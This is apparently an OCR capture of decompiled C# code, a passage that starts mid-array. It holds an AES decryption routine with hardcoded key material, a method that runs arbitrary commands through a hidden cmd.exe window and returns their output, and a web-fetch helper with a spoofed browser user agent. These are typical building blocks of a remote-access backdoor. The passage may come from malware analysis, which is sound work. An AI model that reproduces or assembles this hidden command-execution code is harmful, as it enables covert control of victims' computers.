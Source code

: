                         243,
                        70,
                        230,
                        214,
                        12,
                        216
                     };
                     string result = null;
                     using (AesManaged aesManaged = new AesManaged())
                     {
                        aesManaged.Mode = CipherMode.CBC;
                        aesManaged.Padding = PaddingMode.Zeros;
                        aesManaged.BlockSize = 128;
                        aesManaged.KeySize = 256;
                        ICryptoTransform transform = aesManaged.CreateDecryptor(bytes, rgbIV);
                        using (MemoryStream memoryStream = new MemoryStream(buffer))
                        {
                           using (CryptoStream cryptoStream = new CryptoStream(memoryStream, transform, CryptoStreamMode.Read))
                           {
                              using (StreamReader streamReader = new StreamReader(cryptoStream))
                              {
                                 result = streamReader.ReadToEnd().Trim(new char[1]);
                              }
                           }
                        }
                     }
                     return result;
                  }

                  // Token: 0x06000006 RID: 6 RVA: 0x00002410 File Offset: 0x00000610
                  public static string ExecuteCommand(string command)
                  {
                     Process process = new Process();
                     process.StartInfo = new ProcessStartInfo
                     {
                        WindowStyle = ProcessWindowStyle.Hidden,
                        FileName = "cmd.exe",
                        Arguments = "/C " + command
                     };
                     process.StartInfo.UseShellExecute = false;
                     process.StartInfo.RedirectStandardOutput = true;
                     process.Start();
                     process.WaitForExit();
                     return process.StandardOutput.ReadToEnd();
                  }

                  // Token: 0x06000007 RID: 7 RVA: 0x00002481 File Offset: 0x00000681
                  public static string GetIt(string url)
                  {
                     HttpWebRequest httpWebRequest = (HttpWebRequest)WebRequest.Create(url);
                     httpWebRequest.UserAgent = "Mozilla/5.0 (Macintosh; Intel Mac OS X 14_0) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.0 Safari/605.1.15";
                     return new StreamReader(((HttpWebResponse)httpWebRequest.GetResponse()).GetResponseStream()).ReadToEnd();
                  }
